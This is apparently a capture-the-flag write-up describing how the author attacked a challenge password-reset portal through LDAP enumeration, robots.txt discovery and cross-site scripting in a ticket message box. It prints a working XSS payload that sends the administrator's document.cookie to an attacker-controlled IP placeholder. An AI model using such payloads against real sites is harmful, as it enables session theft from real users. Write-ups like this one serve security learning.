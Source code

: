                                                                                   <p class="MsoNormal">None of the credentials I had discovered in previous challenges allowed me SSH access. LDAP connections were mixed. Early in the challenge I was able to obtain a full LDAP dump anonymously. <i>However, this was eventually corrected by the elves.</i></p>
                                                                                  <p class="MsoNormal">After hitting a stumbling block with SSH and LDAP, I focused on the web portion. As far I could tell both port 80 and 8080 were serving the same content and provided no difference in functionality or experience. I was able to locate dev/LDIF_template.txt via the robots.txt file. Which confirmed my original LDAP dump schema obtained early in the challenge.</p>
                                                                                  <p class="MsoNormal">While investigating the login form and ‘Forgot Password’ page I decided to attempt a cross site scripting attack to pull the credentials of the administrator who would finally read the request ticket.</p>
                                                                                  <p class="MsoNormal">I attempted many variations of inputting javascript inside the message box. Some scenarios awarded me with the “Alert! Hacker!” message while some appeared to work but I had never received any feedback indicating that an admin was processing the ticket.</p>
                                                                                  <p class="MsoNormal">To help test, I wrote a simple shell script to test to if my request tickets were still “in queue”:</p>
                                                                                  <pre class="MsoFooter" style="margin-left: .5in;"><span class="s1"><span style="font-size: 12.0pt;">#!/bin/sh</span></span>

                                                                                  <span class="s1"><span style="font-size: 12.0pt;"># 0X6WF-FTQD0-8HMDS-CU0AD</span></span>
                                                                                  <span class="s1"><span style="font-size: 12.0pt;"># 0X6WF-FTQD0-8HMDS-CU0AD</span></span>
                                                                                  <span class="s1"><span style="font-size: 12.0pt;"># 0X6WF-FTQD0-8HMDS-CU0AD</span></span>
                                                                                  <span class="s1"><span style="font-size: 12.0pt;"># C32TN-08H2C-0Y02J-LM416</span></span>

                                                                                  <span class="s1"><span style="font-size: 12.0pt;">curl -X GET "http://127.0.0.1:20002/reset_request?ticket=${1}"</span></span></pre>
                                                                                  <p class="MsoNormal">This worked well early in the challenge as there were times where my request would stay in queue for several hours. Later in the challenge tickets were processed in near real time and negated the need to test.</p>
                                                                                  <p class="MsoNormal">In the end, I found that putting the message “<i>Message&lt;img src=’#’ onerror=this.src=’http://&lt;MY-IP&gt;:55779/?c=’&gt;</i>” was executed in the administrator’s browser.</p>
                                                                                  <p class="MsoNormal">Having a good control test in place, I next decided to see if I could simply steal the administrator cookie.</p>
                                                                                  <p class="MsoNormal">I had success by adding ‘<i>+document.cookie’ </i>to the end of the above URL. I was able to obtain the SESSION cookie used by the administrators browser, but it did not grant me the access I hoped.</p>
                                                                                  <p class="MsoNormal">I next started looking in more detail at the HTML in the site. What I found is that the authentication form was looking for data from the <i>localStorage</i> data structure (<i>specifically, localStorage[‘np-auth’]</i>).</p>
